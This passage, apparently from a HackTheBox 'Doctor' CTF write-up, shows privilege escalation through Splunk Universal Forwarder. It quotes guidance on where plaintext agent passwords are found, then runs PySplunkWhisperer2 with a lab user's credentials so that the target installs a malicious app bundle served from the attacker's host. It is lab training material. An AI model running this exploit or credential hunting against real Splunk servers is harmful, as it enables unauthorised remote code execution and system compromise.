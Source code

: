 > installations to set a password of 8 characters or higher. As you will note in my demo, complexity is not a requirement as my agent password
> is 12345678. A remote attacker can brute force the password without lockout, which is a necessity of a log host, since if the account locked
> out then logs would no longer be sent to the Splunk server and an attacker could use this to hide their attacks.
...
> I often find the Splunk Universal Forwarding agent plain text password in the following locations on networks:
> 
>     Active Directory Sysvol/domain.com/Scripts directory. Administrators store the executible and the password together for efficient agent
> installation.
>     Network file shares hosting IT installation files
>     Wiki or other build note repositories on internal network
> 
> The password can also be accessed in hashed form in Program Files\Splunk\etc\passwd on Windows hosts, and in /opt/Splunk/etc/passwd on Linux
> and Unix hosts.

Checked `/opt/Splunk/etc/passwd` but `shaun` does not have access to this file.

I found [this GitHub repo](https://github.com/cnotin/SplunkWhisperer2) to exploit Splunk as well.
> Local privilege escalation, or remote code execution, through Splunk Universal Forwarder (UF) misconfigurations

```Console
shaun@doctor:/opt/splunkforwarder$ ps aux | grep 'splunk'
root        1167  0.1  2.1 259516 85380 ?        Sl   00:08   0:04 splunkd -p 8089 start
root        1168  0.0  0.3  77664 13388 ?        Ss   00:08   0:00 [splunkd pid=1167] splunkd -p 8089 start [process-runner]
```
 * the Splunk process is running on port 8089 by `root`

Ran the python version of `SplunkWhisperer2` with the payload of `id` and got the following:
```Console
╰─❯ python3 PySplunkWhisperer2_remote.py --host 10.129.242.87 --lhost 10.10.14.77 --payload id
Running in remote mode (Remote Code Execution)
[.] Authenticating...
Authentication failure

<?xml version="1.0" encoding="UTF-8"?>
<response>
  <messages>
    <msg type="ERROR">Unauthorized</msg>
  </messages>
</response>
```
 * try this but with the credentials obtained for `shaun`
``` Console
╰─❯ python3 PySplunkWhisperer2_remote.py --host doctors.htb --port 8089 --lhost 10.10.14.77 --username shaun --password Guitar123 --payload id
Running in remote mode (Remote Code Execution)
[.] Authenticating...
[+] Authenticated
[.] Creating malicious app bundle...
[+] Created malicious app bundle in: /var/folders/dk/9d8l_p0j7w9c13sv5x_tpz7w0000gq/T/tmp5vcd7ima.tar
[+] Started HTTP server for remote mode
[.] Installing app from: http://10.10.14.77:8181/
10.129.242.87 - - [23/Oct/2021 18:14:39] "GET / HTTP/1.1" 200 -
[+] App installed, your code should be running now!
```
